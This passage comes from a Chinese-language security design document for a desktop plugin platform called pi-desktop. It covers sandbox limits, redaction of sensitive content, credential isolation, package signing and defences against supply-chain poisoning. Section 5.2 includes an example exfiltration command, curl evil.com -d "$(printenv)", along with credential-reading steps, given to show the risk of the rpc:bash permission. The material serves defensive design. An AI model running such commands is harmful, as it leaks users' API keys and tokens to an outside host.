- **受限加载器**：renderer 侧加载 UI 模块时，**只主动注入 scoped `pi` 对象**（rpc/events/i18n/ui 组件库），不主动注入 `require`/`process`/`fs` 等危险方法。UI 模块经动态 import 注册进 `componentRegistry[componentId]`，渲染时挂载 `<PluginComponent id/>`。注意 renderer 是浏览器环境、本就没有 `require`/`process`/`fs`；而 `window`/`document` 是同 realm 动态 import 的全局，受限加载器**无法对同 realm 运行的插件 UI 模块隐藏** `window`/`document`——插件 DOM 仍可经 `window.document` 遍历访问宿主 React 树。所以"受限加载器"的措辞是"不主动注入危险 pi 方法"，不是"提供 window 级隔离"；portal 只圈定渲染子树、不阻止插件读宿主 DOM。需要更强隔离时走 webview（12.1）。
- **React portal**：插件组件渲染进 React portal，DOM 隔离在 portal 子树里，不直接操作宿主顶层 DOM。portal 把插件 UI 的渲染范围圈住，防止它乱改宿主布局。
- **ErrorBoundary + React.lazy**：插件组件用 ErrorBoundary 包裹，抛错被接住、显示降级 UI、不影响宿主 React 树。`React.lazy` 做懒加载，加载失败也不拖垮整壳。



**图 7 — renderer 侧三道软隔离：受限加载器 + portal + ErrorBoundary**。

renderer 侧隔离弱于进程隔离，但真正的不可信代码隔离由 worker 进程边界兜底——`main` 侧的逻辑在独立进程、碰不到 renderer 状态；`renderer` 侧的 UI 代码做受限加载 + portal 隔离。如果一个插件要加载完全不可信的第三方富内容（比如渲染任意 HTML），那个槽位单独走 webview（每插件一个独立浏览器上下文，只靠 postMessage 通信，UI bundle 彻底独立）——这是 VSCode webview 的路线，作为强隔离槽位的降级方案，不作为默认。

### 3.4 沙箱的边界与诚实声明

沙箱不是万能的，它的边界要讲清楚，避免审计者误以为"沙箱挡一切"：

- **进程边界挡崩溃和内存越界**，但挡不了"插件滥用已授权能力"——一个声明了 `fs:project:write` 的插件，沙箱不会阻止它在项目目录里写恶意代码，因为这是用户授权的能力。沙箱挡的是"未授权的能力调用"（抛错）和"能力越界后的连带伤害"（进程隔离让崩只崩自己）。
- **renderer 侧隔离弱于 worker 侧**。UI 代码和宿主共享 renderer 堆，理论上一个恶意 UI 模块可能尝试操作宿主 DOM 或读宿主状态。core 用受限加载器 + portal 收窄这个面，但不声称 renderer 侧达到进程级隔离强度。需要进程级隔离的不可信内容走 webview。
- **RPC 逃生舱**。`rpc.send(unknown)` 让插件能发任意底座命令。但 RPC 的 31 个命令本身不含管理类命令（1.5.9），所以逃生舱能"发任意运行时控制命令"，不能"管理 pi 自身"。此外逃生舱仍受命令级授权表约束：高危运行时命令 `bash`/`prompt`/`steer`/`follow_up` 未声明 `rpc:bash`/`rpc:prompt` 时被 rpc-adapter 拒绝、`export_html` 的 fs 作用域与 `content:sensitive` 不满足时被拒绝（2.1/2.6/4.1.1）——逃生舱失去强类型（`unknown`）但没失去授权，只是把"类型校验"换成"命令级权限校验"。逃生舱失去强类型是激进洋葱的代价——换圆心零外部依赖，值得。

这些边界不是漏洞、是设计权衡。沙箱的目标是把"不可信代码能做的事"收窄到"用户授权的能力 + 经 event 流看到的脱敏数据 + 经 RPC 发的运行时控制命令"，而不是"什么都不让做"。

## 4 content:sensitive 过滤：gateway 层的脱敏

### 4.1 过滤点在 gateway 层，不在圆心、不在插件侧

`content:sensitive` 的过滤点是一个关键的安全设计决策：**过滤在 gateway 层做，圆心不感知权限，插件侧无法绕过**（`DESIGN.md` 1.7.6 / 5.1.5）。这三句话缺一不可，分别对应洋葱的三层：

- **gateway 层做过滤（event 流）**：`gateway/event-translator.ts` 把 pi 的 `AgentSessionEvent` 翻译成圆心中性 `SessionEvent` 时，按"当前订阅插件的权限"过滤敏感字段。未声明 `content:sensitive` 的插件，收到的 event 里 `content[]` / `toolCalls[].args` 等敏感字段置空，只保留 `role`/`toolName` 等元数据。
- **gateway 层做过滤（RPC 读响应）**：同样在 gateway 层，`rpc-adapter` 在派发 `get_messages` / `get_entries` / `get_last_assistant_text` / `export_html` 等返回对话/文件内容的 RPC 命令、把响应回给调用插件前，按该插件的 `content:sensitive` 权限对响应体做同样的脱敏（未授权者敏感字段置空或直接拒绝该命令）。这与 event 流共用同一套 `redactSensitive` 逻辑（4.2），保证"意图可见"防御对 RPC 读路径同样成立——插件无法靠 `rpc.send({type:"get_messages"})` 绕过 event 流的脱敏拿到对话内容。

#### 4.1.1 export_html 的双重能力旁路与重新归类

`export_html` 早期被归入"返回对话/文件内容的 RPC 读响应"——但这漏掉了它的两个核心副作用，使其成为 fs 权限三层收紧模型与 `content:sensitive` 门控的双重旁路：

1. **文件写入副作用不经 fs 权限门控**：`export_html` 按调用插件提供的 `outputPath` 把整段 session 的 HTML 写到磁盘文件。若该写入不经 `fs:project:write` / `fs:global:write` 校验，一个未声明任何 `fs:` 写权限的插件（`export_html` 不在 `rpc:bash`/`rpc:prompt` 高危清单、按 2.1 默认 rpc 放行集规则本应属排除项之外的放行类）能往任意路径写文件，击穿 fs 权限三层收紧模型。
2. **落盘文件内容不经 `content:sensitive` 门控**：写到磁盘的 HTML 文件含完整对话文本，但 `content:sensitive` 的门控只作用在 RPC 响应体（响应只是 `{path}`），不覆盖落盘文件内容。一个未声明 `content:sensitive` 的插件也能让完整对话内容被写到任意文件，"意图可见"防御在 `export_html` 路径上失效。

**重新归类**：把 `export_html` 从"纯读响应"重新归类为**"有写副作用 + 内容输出"命令**，纳入命令级授权表审视（2.1/2.6/10.3）。其授权约束为：

- **outputPath 写入受 fs 作用域约束**：目标路径必须落在调用插件已授权的 fs 作用域内——写项目目录需 `fs:project:write`、写 `~/.pi` 需 `fs:global:write`，落在作用域外直接拒绝。`export_html` 不经默认 rpc 放行（见 2.1 排除项第 3 条）。
- **落盘 HTML 内容受 `content:sensitive` 门控**：落盘文件的对话内容按调用插件 `content:sensitive` 权限脱敏——未声明者要么拒绝该命令、要么写出的 HTML 是脱敏版（敏感字段置空、元数据保留，与 4.2 置空语义一致）。脱敏在 gateway/rpc-adapter 侧做，插件无法绕过。
- **响应体 `{path}` 同样受门控**：响应体本身不含敏感内容（仅路径），但落盘文件的内容已在上一步脱敏，响应只是回路径。

这样 `export_html` 的 fs 写副作用被 fs 权限三层收紧模型挡住、落盘内容被 `content:sensitive` 门控挡住，与第 4 节的"意图可见"防御强度一致。
- **圆心不感知权限**：`domain/` 的 `SessionEvent` 类型、PluginContext 接口里没有任何"权限"概念。圆心只描述事件结构，不知道"这个插件能不能看这个字段"。这保证圆心稳定——加新权限枚举、改过滤策略，圆心不动。
- **插件侧无法绕过**：插件收到的 event 已经是过滤后的，它没有任何"拿原始事件"的接口。`context.events.on` 收的就是 gateway 翻译+过滤后的中性 SessionEvent。插件无法要求"给我没脱敏的版本"。

**renderer 侧 `pi.events.on` 同样受过滤**：按 `DESIGN.md` 3.2.6，core main 默认把中性 SessionEvent 转发给 renderer 侧插件运行时上下文，纯 renderer 插件（无 `main`）经 `pi.events.on` 收 `tool_execution_*` 等事件。这条 core main → renderer 的转发路径**同样经过"按订阅插件权限过滤"**——不是把同一份中性事件广播给所有 renderer 运行时，而是 gateway 在转发前按目标 renderer 插件的权限逐订阅者脱敏（或按最严格订阅者脱敏后转发，再由 renderer 侧运行时按各自权限二次过滤）。这防止纯 renderer 插件收到未按其权限脱敏的事件、绕过 `content:sensitive`。

**依赖倒置：gateway 不直接依赖 application**。按图 2 洋葱顺序 SHELL→APP→GW→DOM，gateway 比 application 更内层；但 content:sensitive 过滤要"查订阅插件权限"，而权限表存在 application/loader。若 gateway 直接 import application 的授权表，就是内层依赖外层，违反"依赖只向内"纪律。化解方式是依赖倒置：在 gateway（或 domain）定义抽象接口 `PermissionProvider { querySubscriberPermissions(pluginId): Promise<Set<string>> }`，由 application/loader 实现、在装配时依赖注入给 event-translator 与 rpc-adapter。这样 gateway 依赖的是内层拥有的抽象，不直接依赖 application，与 5.1.6 的 `PluginRuntime` 倒置同构，符合洋葱纪律。



**图 8 — content:sensitive 过滤在 gateway（覆盖 event 流、RPC 读响应、renderer 转发三路），经 PermissionProvider 抽象查 application 权限表，圆心不感知，插件无法绕过**。

### 4.2 敏感字段置空语义

过滤不是"整个事件丢掉"，而是"敏感字段置空，元数据保留"。这是为了让没有 `content:sensitive` 权限的插件仍能做有用的事——比如一个统计类插件要数"这一轮发了多少条消息、调了哪些工具"，它只需要 `role`/`toolName`/`messageCount` 这些元数据，不需要对话文本。置空语义让它能正常工作，同时看不到敏感内容。

具体哪些字段置空（`DESIGN.md` 1.7.6）：

- `AgentMessage.content[]`（对话文本/图片）→ 置空，保留 `role`。
- `toolCalls[].args`（工具参数，可能含文件内容）→ 置空，保留 `toolName`/`toolCallId`。
- `tool_execution_*` 事件里的 `result` / `partialResult`（工具结果，可能含文件内容）→ 置空，保留 `toolCallId`/`isError`。

```typescript
// gateway/event-translator.ts 伪代码：按订阅插件权限过滤
function translateAndFilter(
  piEvent: AgentSessionEvent,
  subscriberPermissions: Set<string>
): SessionEvent {
  const neutral = toNeutralEvent(piEvent);  // 先翻成圆心中性事件
  if (!subscriberPermissions.has("content:sensitive")) {
    return redactSensitive(neutral);  // 置空敏感字段
  }
  return neutral;  // 有权限的插件收完整事件
}

function redactSensitive(e: SessionEvent): SessionEvent {
  // 按 event 类型置空对应字段，保留元数据
  switch (e.kind) {
    case "message": return { ...e, content: [] };              // 清对话内容
    case "tool_call_start": return { ...e, args: undefined };  // 清工具参数
    case "tool_call_end": return { ...e, result: undefined };   // 清工具结果
    case "tool_call_update": return { ...e, partialArgs: undefined };  // 清增量工具参数
    case "tool_execution_update": return { ...e, partialResult: undefined }; // 清增量工具结果
    // 元数据 role/toolName/toolCallId/isError 保留
  }
}
```

### 4.3 content:sensitive + net 组合的风险提示

单个 `content:sensitive` 权限给插件"能读对话内容"的能力，单个 `net:域名` 给"能外发数据"的能力——单独看都是合法需求（时间线插件要读、通知插件要联网）。但两者同时声明时，插件具备了"读对话 + 外发到指定域名"的完整窃取链路。所以管理 UI 在授权时要做组合风险提示（`DESIGN.md` 3.2.4）：声明了 `content:sensitive` + `net:api.evil.com` 的插件，要明确告诉用户"此插件能读你的对话并外发到 api.evil.com"。



**图 9 — content:sensitive + net 组合触发重点风险提示**。

这把"隐蔽窃取"转成"必须显式暴露意图"——恶意插件要窃取对话，必须在 manifest 里同时声明这两个权限，用户在授权时一眼能看到风险提示。这是权限模型把"意图可见"作为防御手段的体现。

**意图可见防御同样覆盖 RPC 读路径**：早期版本的威胁流只画了 event 流窃取路径，但 RPC 默认能力里的 `get_messages`/`get_entries`/`get_last_assistant_text`/`export_html` 也能返回对话文本——若这些 RPC 响应不受 `content:sensitive` 门控，插件无需声明 `content:sensitive`、调一个默认 RPC 即可拿到全部对话，"意图可见"防御就被绕过。所以第 4 节明确把 `content:sensitive` 门控扩展到 RPC 读响应（4.1/4.2）：未声明 `content:sensitive` 的插件调这些命令，响应里敏感字段同样置空（或直接拒绝）。这样图 19 的威胁流对 RPC 读路径同样成立——要靠 RPC 读对话内容外发，仍须同时声明 `content:sensitive` + `net:域名`，组合在装时被重点提示。

## 5 凭证保护

### 5.1 pi auth-storage 管理凭证，桌面不碰

pi 的 auth 凭证（OAuth token、API key）由底座的 `auth-storage` 管理（`DESIGN.md` 2.1.4），存储在 `~/.pi/agent/` 下。凭证怎么存、怎么加密，是底座的事——桌面端建议底座加密存储（向底座提），不自己管凭证文件。桌面端管 auth 时调的是底座的 auth-storage 能力（经 RPC 的 OAuth 流或直接读写凭证文件），但这个"管"是用户在管理 UI 里做的高层操作（登录、登出、换 key），不是插件能调的能力。

### 5.2 PluginContext 不暴露凭证读接口

这是凭证保护的核心防线（`DESIGN.md` 4.3.2 凭证说明）：**插件无权直接读凭证**（有条件——见下）。PluginContext 接口里没有任何"读 API key / 读 OAuth token"的方法。插件要发需要鉴权的 API 请求，只有两条合法路径：

- **走 RPC（只读/中性命令）**：让底座代劳。底座发 LLM 调用、发需要 auth 的请求时，自动加凭证。插件调 `rpc.get_state` / `rpc.set_model` 等中性命令让底座做事，底座自己加 auth，插件全程碰不到凭证。
- **走 `rpc.prompt`（需声明）**：声明并授权 `rpc:prompt` 后，插件调 `rpc.prompt`/`rpc.steer` 让底座 agent 做事，底座在发 LLM 调用时自动加 auth，插件仍碰不到凭证文本。
- **走 `http.fetch`**：但这个 fetch 是 core main 代理的、受 `net:域名` 白名单约束，并且 core 代理不会自动把凭证加进插件的请求——插件拿不到凭证，自然加不进去。

**"碰不到凭证"是有条件的，不能作无条件断言**：`rpc:bash`（见 2.1/2.6，需声明授权）一旦授权给某插件，该插件就能在底座进程上下文执行任意 bash——底座子进程启动时 OAuth/API key 经 env 注入（5.4），`rpc:bash` 下 `printenv` 即可读出全部 env 凭证；底座可读写 `~/.pi/agent/` 下的凭证文件，`cat` 也能读出。`net:` 白名单同样被 `rpc.bash` 击穿：`rpc.bash` 里 `curl evil.com -d "$(printenv)"` 不经 core main 代理、不经 `net:` 白名单。所以 5.2 的"插件碰不到凭证"成立的条件是：**插件未获 `rpc:bash` 授权**。一旦授权 `rpc:bash`，等同于把底座进程的全部凭证暴露面交给该插件——这正是不把 `bash` 随默认 `rpc` 下发、要求独立声明 `rpc:bash` 的根本理由（2.6）。即便用户授权了 `rpc:bash`，仍可叠加缓解：底座执行 `rpc.bash` 时运行在剥离凭证 env 的子上下文（只透传非凭证变量）、且文件系统访问受底座侧 ACL 限制（凭证目录对 bash 子上下文不可读）；但这些是缓解而非强保证，`rpc:bash` 的授权应被管理 UI 标注为"等价于向该插件暴露底座凭证"。



**图 10 — 凭证保护：底座管凭证、底座加 auth，插件 PluginContext 无读凭证接口；但 `rpc:bash` 授权后等于暴露底座凭证，这是不把 bash 随默认 rpc 下发、要求独立声明 `rpc:bash` 的根本理由**。

### 5.3 数据导出不含凭证

凭证隔离还体现在数据导出上（`DESIGN.md` 4.3.2 数据与隐私页）。管理 UI 的"数据导出"功能一键导出全部本地数据（session 列表、插件配置、本地 sqlite 备份），但**导出不含凭证**——API key / OAuth token 不进导出包，用户另行备份凭证。这保证即使用户把导出包分享给别人（求调试帮助、备份），凭证不会跟着泄露。

### 5.4 env 注入的凭证与 child:command 的隔离

底座子进程启动时，OAuth 凭证、API key 往往经 env 注入（`DESIGN.md` 1.3.1 RpcClientOptions 的 `env` 字段）。这意味着 core main 持有含凭证的 env。`child:command` 权限让插件能跑子进程——如果子进程继承宿主 env，插件就能借子进程读到 env 里的凭证。所以 `child:command` 执行的子进程 env 采用 allowlist（只透传插件声明需要的非凭证变量），core 经 `shell/` 的受控通道 spawn。这是凭证保护在子进程维度的延伸——把"凭证只在底座进程内可见"这条边界守到子进程维度。

**注意 `rpc:bash` 是这条边界的例外**：`rpc:bash`（2.1/2.6，需声明）让插件在底座进程上下文执行 bash，而底座进程持有含凭证的 env、可读写 `~/.pi/agent/` 凭证文件——`child:command` 的 env allowlist 在这里不适用，因为 bash 跑在底座进程而非受控 spawn 的子进程里。所以 `rpc:bash` 的授权必须被理解为"等价于向该插件暴露底座全部凭证"；缓解措施是底座执行 `rpc.bash` 时运行在剥离凭证 env 的子上下文、且文件系统访问受底座侧 ACL 限制（凭证目录对 bash 子上下文不可读），但这是缓解而非强保证。`rpc.bash` 还击穿 `net:` 白名单——bash 内 `curl` 不经 core main 代理。结论：`rpc:bash` 不应随默认 `rpc` 下发，授权门槛等同于 `child:command`。

## 6 签名校验

### 6.1 verified / unverified 信息提示

`.pidesktop` 包可选带 `SIGNATURE`——作者用私钥签包内容哈希（`DESIGN.md` 3.9.3）。安装时桌面端校验签名：校验通过标 `verified`、校验失败或无签名标 `unverified`，管理 UI 显示这个标记让用户知情。签名不是校验通过才让装，而是校验结果作为信息提示，帮用户判断可信度。

**信任锚的来源**：签名校验必须有受信公钥才有意义，否则攻击者自签即可获得 `verified`。桌面端的信任锚分发机制是：(a) **壳内置官方公钥集**——pi-desktop 随壳分发一组官方维护的公钥指纹，官方 scope（`@earendil-works/`）插件用官方私钥签、校验通过才标 `verified`；(b) **作者 key 指纹公示**——第三方作者在 manifest 声明自己的公钥指纹，桌面端在管理 UI 展示该指纹，作者在 npm/官网公示同一指纹供用户比对；(c) **用户手动导入**——用户可在管理 UI 手动导入并信任某个作者公钥指纹。只有校验用的公钥来自上述受信来源之一、且签名通过，才标 `verified`；签名通过但公钥不受信（自签）只标"签名自洽"，不标 `verified`。演进项：key rotation 与吊销机制（12.8）。



**图 11 — 签名校验产 verified/unverified 标记，作为信息提示**。

### 6.2 非强制：不挡社区小作者

签名是**非强制**的（`DESIGN.md` 3.9.3）。强制签名会挡掉社区小作者——很多个人开发者没有签名密钥基础设施，强制要求签名等于把这些人挡在生态外。pi-desktop 的立场是：签名是帮用户决策的信息，不是准入门槛。一个 unverified 的插件仍然能装、能跑——但它过的是同一道沙箱（第 3 节），沙箱挡住了未授权的能力调用。所以 unverified 不等于"不安全"，只是"来源未经验证"。

### 6.3 签名与沙箱的职责区分

签名和沙箱是两套不同职责的机制（`DESIGN.md` 3.9.3 末尾），不要混为一谈：

- **沙箱是技术隔离**：任何插件（verified 或 unverified、内置或第三方）都过同一道沙箱。沙箱挡的是"插件做了未授权的事"——进程隔离、scoped API、permissions 校验、content:sensitive 过滤。这是强制的、技术性的、不区分来源的。
- **签名是信息提示**：帮用户在"装不装"这个决策点判断来源可信度。`verified` 的包内容未被篡改、且签名公钥经受信锚（壳内置官方公钥集 / 作者公示指纹 / 用户导入）校验通过，作者身份可溯源；自签但公钥不受信的包只保证"签名自洽"（内容未被篡改），不等于"来源可溯源"。`unverified` 提示用户"这个包没签名或签名坏了，装之前想清楚"。这是辅助的、信息性的、区分来源的。



**图 12 — 沙箱（强制技术隔离）与签名（非强制信息提示）职责分开**。

## 7 供应链安全

### 7.1 npm scope 归属

npm 渠道是外部插件的主分发渠道。第三方发布成 npm 包（如 `@scope/pi-desktop-plugin-foo` 或 `pi-desktop-foo`），用户在桌面端管理 UI 搜包名安装（`DESIGN.md` 3.9.2）。npm 的发布者机制提供一层信任——包名 scope 归属：`@earendil-works/` scope 归 pi-desktop 官方，官方发布的包天然可信度更高；个人 scope（`@user/`）或无 scope 的包由发布者负责。

桌面端推荐/内置的插件，其 npm 包名应在官方 scope 下，让用户能靠 scope 区分"官方维护"和"第三方"。管理 UI 展示插件来源时把 scope 信息显示出来，帮用户判断。这不是强制的访问控制（npm 的 scope 是 registry 层面的归属，不是桌面端的准入），而是信息层级的供应链溯源。

**scope 不防 typosquatting / 依赖混淆**：scope 归属只防"他人冒用该 scope 发布"（`@earendil-works/foo` 别人发不了），不防 typosquatting（`pi-desktop-halper` 钓鱼包名）与依赖混淆（企业内部同名包被外部抢占）。这两个是 npm 实际更常见的攻击向量。所以管理 UI 的安装校验应额外做：包名相似度提示（与已装/内置插件名编辑距离过近时警告）、内部包名保护（企业可登记内部包名清单，从外部 registry 拉到同名包时拦截）。scope 是信任信号之一，不是全部。

### 7.2 依赖投毒防护

npm 生态的依赖投毒是现实威胁——一个看似无害的插件可能依赖了被投毒的传递依赖，安装时执行 install 脚本窃取数据或植入恶意代码。pi-desktop 的防护分几层：

- **manifest + 代码模块校验**：安装时做 manifest schema 校验（3.5 第 3 步同规则）+ 签名校验（如有）+ 版本检查（3.9.4）。校验失败回滚、不留半装状态。
- **install 脚本风险**：npm 包的 `postinstall` 脚本是投毒的高危面。桌面端的 installer 经 `PackageFetcher` 接口拉包（3.9.7），shell 实现的 NpmFetcher 控制拉包过程——可以配置 npm 拉包时禁用或限制 install 脚本执行，降低投毒面。这条是 shell 层的防护策略，具体策略由 shell 实现决定。
- **落盘隔离**：安装的插件落 `~/.pi/desktop/installed/{id}/{version}/`，不在 3.4 的发现路径下（发现层扫 `~/.pi/desktop/plugins/`），靠 installer 显式通知加载器加载（`loader.loadExplicit()`）。这隔离了"装来的东西"和"手写/内置的东西"，也支持多版本共存。
- **运行时沙箱兜底**：即使投毒的依赖在插件 activate 时跑了起来，它跑在 worker 沙箱里——`require`/`fs`/`process` 受限、`http.fetch` 受域名白名单、`content:sensitive` 受过滤。投毒代码想窃取对话内容外传，仍要过 permissions 授权这关。



**图 13 — 供应链投毒防护链：拉包限制 install 脚本 → 校验签名 → 落盘隔离 → 运行时沙箱兜底**。

### 7.3 .pidesktop 离线渠道

`.pidesktop` 包文件是离线/内网渠道（`DESIGN.md` 3.9.2）。它实质是个 zip（`plugin.json` + 代码 + 资源 + 可选签名块），用户从文件拖入或贴 URL 下载安装。和 npm 的区别只是"怎么拿到包文件"——拿到后解压、校验、落盘的步骤一样。这个渠道适合内网分发、离线场景、不想走 npm registry 的企业。供应链防护同理：签名校验（有则 verified、无则 unverified）、manifest schema 校验、落盘到 `installed/`、运行时沙箱。内网企业可以自建 `.pidesktop` 仓库 + 内部签名密钥，实现企业内部的插件分发信任链。

### 7.4 source 字段溯源

manifest 的 `source` 字段（`DESIGN.md` 3.2.1/3.9.3）是供应链溯源的关键。格式 `"npm:<包名>"`（npm 渠道）或 `"file:<url>"`（.pidesktop 渠道），本地手写插件不填、来源标记是 `local`。installer 靠 `source` 做更新检查（npm 查 registry、file 查 source URL）和卸载溯源。当出现冲突报告或安全事件时，`source` 让管理员能追溯"这个插件哪来的、谁发布的"，是供应链可观测性的基础。

## 8 项目信任 vs 插件权限

### 8.1 项目信任前置：settings 加载的门

项目信任是 pi 配置加载的一道门（`DESIGN.md` 2.1.2）。pi 的配置分全局（`~/.pi/agent/settings.json`）和项目级（`<cwd>/.pi/settings.json`）两份，项目级 settings **只有在项目被信任时才加载**——`SettingsManager.loadFromStorage` 里 `if (scope === "project" && !projectTrusted) return {}`。不信任的项目，它的 `.pi/settings.json` 被直接忽略，防止恶意项目通过配置文件注入（比如项目级 settings 里塞恶意扩展路径、改默认模型、开遥测）。

settings 写入也受信任约束：`assertProjectTrustedForWrite` 在写项目级配置时检查，不信任就拒绝。文件并发用 `proper-lockfile` 做文件锁，保证桌面端和底座同时写一个文件不打架。项目信任的管理 UI 在 4.3 基础管理 UI 插件（信任列表、默认策略、信任开关），信任的运行时交互流程在 4.8 终端与项目信任插件（打开不信任项目时弹"是否信任"）。

